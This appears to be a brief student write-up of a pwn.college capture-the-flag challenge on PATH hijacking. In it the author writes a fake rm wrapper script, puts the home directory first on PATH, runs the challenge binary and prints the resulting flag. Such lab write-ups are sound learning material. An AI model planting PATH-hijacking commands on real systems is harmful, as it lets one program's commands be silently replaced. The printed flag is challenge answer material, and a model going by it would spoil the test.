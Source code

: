 # HIJACKING COMMAND
so inorder to revent finding of rm
i typed #!/bin/bash
if [[ "$@" == "/flag" ]]; then
    echo "Attempt to delete the flag was blocked!"
else
    /bin/rm "$@"
fi
and then made it executavle with chmod..then changed path to ?home?hacker
and then ran it
``` bash
bash
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ chmod +x rm
hacker@path~hijacking-commands:~$ export PATH=/home/hacker:$PATH
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
rm hijacked!
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
rm has been hijacked
pwn.college{0GtVZIB9M-Bgw6pfVkQ8reuZL_r.ddzNyUDL5AjN0czW}


```
